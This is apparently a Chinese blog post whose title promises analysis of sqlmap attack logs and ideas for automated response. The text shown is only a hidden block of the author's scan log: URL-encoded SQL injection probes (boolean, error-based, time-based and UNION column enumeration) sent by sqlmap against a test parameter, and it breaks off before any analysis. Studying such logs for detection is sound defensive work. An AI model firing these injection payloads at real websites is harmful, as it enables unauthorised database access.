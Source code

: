 ```yaml
---
title: "sqlmap 攻击日志分析及自动化解决想法"
description: ""
categorys: 
tags: [sqlmap, hack]
---
```


以下内容高危，如你知道密码，请输入

<div style="display:none">
以下是我用sqlmap扫的日志，这是最简单的扫描记录
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%22%28%27%27%28%22%28%27%29%28 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208676%3D9977%20AND%20%289633%3D9633 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203925%3D3925%20AND%20%289861%3D9861 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20636%3D7258%20AND%20%285513%3D5513 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%204986%3D6711 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203925%3D3925 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203864%3D9683 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20940%3D4505%20AND%20%28%27konc%27%3D%27konc HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203925%3D3925%20AND%20%28%27FFCP%27%3D%27FFCP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207381%3D1001%20AND%20%28%27OLcv%27%3D%27OLcv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%202327%3D9115%20AND%20%27Qlha%27%3D%27Qlha HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203925%3D3925%20AND%20%27Wlgw%27%3D%27Wlgw HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%201192%3D5861%20AND%20%27mmuZ%27%3D%27mmuZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%287269%3D7269 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%28%27kalg%27%3D%27kalg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%27bMbA%27%3D%27bMbA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%281279%3D1279 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%28%27RfWr%27%3D%27RfWr HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%27uRAt%27%3D%27uRAt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%283395%3D3395 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%28%27FJAP%27%3D%27FJAP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%27wdHo%27%3D%27wdHo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%281009%3D1009 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%28%27ytpV%27%3D%27ytpV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%27KQDt%27%3D%27KQDt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%287560%3D7560 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%28%27AfMz%27%3D%27AfMz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%27pIKO%27%3D%27pIKO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%283641%3D3641 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20PG_SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%28%27mTPd%27%3D%27mTPd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%27lhez%27%3D%27lhez HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%285747%3D5747 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%28%27iUug%27%3D%27iUug HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%27oGtV%27%3D%27oGtV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20SLEEP%285%29%20AND%20%283924%3D3924 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20SLEEP%285%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20SLEEP%285%29%20AND%20%28%27vnCj%27%3D%27vnCj HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20SLEEP%285%29%20AND%20%27xHdS%27%3D%27xHdS HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%287626%3D7626 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%28%27vrAE%27%3D%27vrAE HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%27VcUg%27%3D%27VcUg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%283376%3D3376 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20WAITFOR%20DELAY%20%270%3A0%3A5%27-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%28%27cMqq%27%3D%27cMqq HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%27QQdM%27%3D%27QQdM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%284545%3D4545 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%28%27JNkT%27%3D%27JNkT HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%27YxKy%27%3D%27YxKy HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28771%3D771 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%282265%3D2265 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286668%3D6668 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%283039%3D3039 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287237%3D7237 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%281361%3D1361 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287315%3D7315 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286174%3D6174 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%285136%3D5136 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%282494%3D2494 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28%27nymA%27%3D%27nymA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%28%27ijmk%27%3D%27ijmk HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27oFxP%27%3D%27oFxP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27CWYo%27%3D%27CWYo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27lxqZ%27%3D%27lxqZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27DWNP%27%3D%27DWNP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27byrs%27%3D%27byrs HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27KEvQ%27%3D%27KEvQ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27OLyg%27%3D%27OLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27TOsV%27%3D%27TOsV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%27mDCu%27%3D%27mDCu HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%27VTxz%27%3D%27VTxz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27YmTa%27%3D%27YmTa HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27MMix%27%3D%27MMix HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27bXGh%27%3D%27bXGh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27DuTO%27%3D%27DuTO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27JVBX%27%3D%27JVBX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27xxHC%27%3D%27xxHC HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27zReF%27%3D%27zReF HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27iOvN%27%3D%27iOvN HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%282876%3D2876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%284969%3D4969 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281601%3D1601 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%285858%3D5858 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%2867%3D67 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%286756%3D6756 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%283876%3D3876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281001%3D1001 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%287414%3D7414 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28767%3D767 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
